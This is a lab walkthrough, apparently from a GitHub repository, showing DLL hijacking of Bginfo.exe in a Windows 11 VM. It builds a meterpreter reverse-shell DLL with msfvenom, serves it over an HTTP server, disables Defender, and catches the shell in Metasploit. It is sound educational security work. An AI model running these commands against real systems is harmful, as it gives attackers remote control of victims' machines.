 # 1. Find the Vulnerable `.dll` File
### In Windows 11 VM
Use [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to find the vulnerable `.dll` file.

### Filter Settings
Create the following 3 conditions
![procmon](./screenshots/02.png)


### Search for vulnerable `.dll` file
Then execute [Bginfo.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/bginfo).

![Bginfo.exe](./screenshots/03.png)

I tried one or several `.dll` files in the folder of `C:\User\user\Desktop\BGinfo` at the same time, but none of them worked. Eventually, I found on `.dll` file `rpcss.dll` had been searched by `Bginfo.exe` twice, so I tried it and it worked!

![rpcss.exe](./screenshots/01.png)

# 2.Kali VM
### Generate malicious `.dll` file
You can use `ip a` to find your IP address in case you haven't checked it yet.
```bash
msfvenom -p windows/meterpreter/reverse_tcp  -ax86 -f dll LHOST=<YOUR_IP_ADDR> LPORT=4444 > <VULNERABLE_DLL_FILE_NAME>.dll
```
![malicious_dll.exe](./screenshots/04.png)

### Host a server 8000
Then, the victim Windows 11 VM can download this malicious `.dll` file directly from your server.
```bash
python3 -m http.server 8000
```

# 3. Windows 11 VM
### Download the file
- Make sure you turn off the defender before, or the file will be removed.
- Put this `.dll` file into the folder shown in the `procmon`.

![server_8000](./screenshots/05.png)

# 4. Kali
### Generate shell in Metasploit
```bash
sudo msfconsole
```

![Metaslpoit](./screenshots/06.png)

### Create the shell

```bash
use multi/handler
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
```

**NOTE:** You can use `show options` to check the information you typed previously.

### Start Listening
Finally, we can start listening to the malicious payload once the victim click on the executable, then it will be reversed back to the Kali VM.
```bash
exploit
```

# 5. Windows 11
I restart the Windows 11 VM before fire up the executable `Bginfo.exe`, but if you succeed right away, you can skip this step/

![Bginfo.exe](./screenshots/07.png)

# 6. Kali
Then you will find you have the meterpreter shell now.
![meterpreter shell 01](./screenshots/08.png)

# Exploration
- Explore the victim's VM
- Migrate to another process in case the victim kills the original one.
![meterpreter shell 02](./screenshots/09.png)

### Check the Vulnerabilities

![meterpreter shell 03](./screenshots/10.png)

It might take longer time for Windows 11, Windows 10 or 7 would be recommended for testing prupose.
![meterpreter shell 04](./screenshots/11.png)


---

# Reference
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.